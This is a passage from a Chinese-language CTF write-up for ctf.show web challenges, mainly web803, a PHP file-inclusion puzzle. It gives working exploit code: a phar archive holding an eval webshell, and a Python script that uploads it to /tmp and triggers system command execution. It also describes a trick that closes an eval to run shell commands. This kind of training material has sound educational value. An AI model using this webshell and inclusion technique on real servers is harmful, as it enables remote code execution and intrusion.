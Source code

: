 上传临时文件：先上传文件，会暂时保存在`/tmp/xxxx`路径下，然后通过`?>`闭合前面的`eval`，后面的php语句，`反引号`来执行命令，`.`来执行一个文件，`cat /f*`,就可以达到实现命令执行了，特别巧妙的技巧了。

##  web803

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file.'.txt')){
        include $file.'.txt';
    }else{
        file_put_contents($file,$content);
    }
}
```

这道题的思路：过滤了`php`和`data`，不能利用这几个协议，在文件包含中，还可以使用`zip`协议和`phar`协议(远程文件包含这个不行)

`file`协议直接读文件，但是有个`file_exists`需要存在一个`txt`文件

而且测试了一下，只能往`/tmp`中去写入文件，网站目录`/var/www/html`写不进去的

日志包含也还是收到`txt`后缀的影响

所以整体的思路，先利用`file_put_contents`讲执行命令的语句写入到文件中，然后再通过`include`包含



利用zip协议按道理来说是可以的，但是我试了一下，包含不了，失败（原因应该是没法将zip中内容传到远程服务器上）

利用phar协议

直接将`马`放到phar包中

```php
<?php 
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>
```

直接给脚本

```php
import requests
url="http://2ed54b8f-1578-49c9-8386-ce7c9c6f68c6.challenge.ctf.show/"
data1={
    'file': '/tmp/shell.phar',
    'content': open('shell.phar','rb').read()
}
data2={
    'file': 'phar:///tmp/shell.phar/a',
    'content': '123',
    '1': 'system("ls");'
}
requests.post(url=url,data=data1)
r = requests.post(url=url,data=data2)
print(r.text)
```
